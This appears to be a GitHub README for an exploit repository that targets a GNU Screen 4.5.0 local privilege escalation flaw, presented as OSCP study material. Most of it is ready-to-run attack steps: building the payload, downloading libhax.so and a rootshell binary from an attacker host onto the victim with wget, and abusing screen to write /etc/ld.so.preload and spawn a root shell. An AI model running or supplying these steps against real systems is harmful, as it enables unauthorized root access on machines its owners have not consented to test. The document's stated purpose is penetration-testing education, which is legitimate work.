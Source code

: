 # screen v4.5.0 Privilege Escalation
`Updated GNU Screen 4.5.0 Exploit:` This repository hosts an enhanced exploit for `GNU Screen 4.5.0` that is related to OSCP Machine. It includes modifications for compatibility with the latest binary configurations in Kali Linux. Intended for educational and research purposes to demonstrate privilege escalation.
- The orginal lib <a href="https://github.com/XiphosResearch/exploits/blob/master/screen2root/README.md"> Old Exploit</a> 
- The orginal Report <a href="https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html">Bug Report</a>

<p align="center"><img src="https://github.com/YasserREED/screen-v4.5.0-priv-escalate/blob/main/img/Front-img.png"></p>

![](https://img.shields.io/badge/Version-%20v1.0.0-blue)
![](https://img.shields.io/badge/Twitter-%20YasserREED-blue)
![](https://img.shields.io/badge/YouTube-%20YasserRED-red)



## Step - Step exploit

#### Setup
```bash
sudo git clone https://github.com/YasserREED/screen-v4.5.0-priv-escalate.git
cd screen-v4.5.0-priv-escalate
sudo chmod +x exploit.sh
./exploit.sh
```

#### Transfer the Files
```console
victom@Machine$ cd /tmp
victom@Machine$ wget 192.168.45.x/libhax.so
victom@Machine$ wget 192.168.45.x/rootshell
```
#### Give the permissions
```console
victom@Machine$ chmod +x libhax.so
victom@Machine$ chmod +x rootshell
```
#### Smash to root
```bash
cd /etc || exit 1
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

<br>

---

<p align="center"> Hack The Planet! :heart_on_fire: </p>
